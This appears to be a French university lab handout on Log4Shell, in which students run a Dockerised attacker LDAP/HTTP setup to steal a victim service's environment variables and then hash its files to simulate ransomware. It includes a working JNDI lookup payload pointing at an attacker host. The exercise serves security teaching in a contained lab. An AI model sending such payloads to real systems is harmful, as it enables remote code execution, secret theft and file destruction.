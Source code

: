 # TP Log4Shell 
#### Victor GAILLARD - Lou LABUSSIERE - Erina POINT - Ugo VIGNON
#### Envoyez votre compte-rendu à l'adresse lou.labussiere@etu.uca.fr
---
## **Objectif** : Hasher les fichiers d'un serveur victime pour simuler une attaque ransomware avec la faille Log4Shell

### **Configuration** :
 Pour commencer, clonez le projet (ou téléchargez l'archive).  

 Dans ce projet, vous trouverez : 
- Le serveur LDAP du pirate;
- Le serveur HTTP du pirate, contenant la codebase que vous aurez à coder;
- Un service de logging sur lequel vous pourrez requêter afin de récuperer des données;
- Le web service de la victime, qui contient les fichiers à hasher; 

Pour lancer le projet :
- Si vous êtes sous vdn, il faut désactiver le proxy pour télécharger les dépendances `unset http_proxy && unset https_proxy`
- Faite un `make all` pour générer tous les Dockerfile;
- Ensuite, faite un `docker-compose up` dans le répertoire cloné;

L'IP du serveur victime et des serveurs du pirate sont loggés avec ces lignes :
```sh
victim_1 | Running on IP : XXX.XXX
server_1 | Running on IP : XXX.XXX
```
 L'IP `server_1` sera à mettre dans le lookup plus tard.

 Si vous ajoutez une classe dans le dossier attacker/java, pensez à relancer vos containers !

---

### **Exercice 0** : Pour se mettre dans le bain
 Pour le temps de ce TP, vous serez le pirate >:) Vous allez donc réaliser une attaque exploitant la faille de Log4Shell sur un web service distant, dans le but de hasher les fichiers de la victime pour simuler un ransomware. 

Après plusieurs essais sur différents sites (en vain), vous tomber finalement sur ce site aux apparences plutôt vulnérables. Le formulaire de connexion n'a pas l'air très sécurisé...

 Avant toute chose, vous allez tester le fonctionnement de cette attaque en affichant dans les logs les valeurs des variables d'environnements de la victime.

Pour cela, vous allez devoir : 
- Créer une classe dans le dossier `attacker/java`. Cette classe devra récupérer les valeurs des variables d'environnements du web service victime, et les logger dans le service `logger_1`. Pour vous aider, consultez l'exemple `WithReturn.java`.

- Utilisez le lookup vu en cours pour lancer votre attaque. Exemple : `${jndi:ldap://<ip_server_1>:<port>/WithReturn}`. 

Pour vérifier que votre attaque a bien marchée, vérifier dans les logs de `logger_1` que les variables d'environnments de la vicitme sont bien affichées après l'envoie de votre requête.

---

### **Exercice 1** : L'attaque, la vraie de vraie
Maintenant que vous avez réussi à afficher les variables d'environnements de votre victime, vous allez pouvoir hasher ses fichiers (mouhaha) !! 

Pour ce faire, vous allez devoir recréer une classe qui va cette fois récupérer les fichiers du serveur de la victime, et les hasher avec l'algorithme SHA-256.

Pour vous aidez:
- la classe `MessageDigest` permet de faire du hashage, plus qu'à savoir comment...
- N'oubliez pas de modifier votre lookup en fonction de votre nouvelle classe ;p

Pour vérifier que cette attaque a bien marché, vous devriez voir que tous les fichiers du web service de la victime ont été hashés. Si c'est le cas, bravo vous êtes un pirate !! 
